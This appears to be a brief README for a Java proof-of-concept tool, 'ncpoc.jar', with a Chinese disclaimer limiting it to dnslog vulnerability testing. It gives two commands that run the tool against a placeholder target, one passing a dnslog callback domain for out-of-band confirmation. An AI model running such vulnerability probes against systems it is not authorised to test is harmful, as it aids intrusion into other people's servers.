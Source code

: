 此工具仅能dnslog漏洞测试，不可用于非法用途
```
java -jar ncpoc.jar http://target.com

java -jar ncpoc.jar http://target.com Servlet xxx.dnslog.cn

```

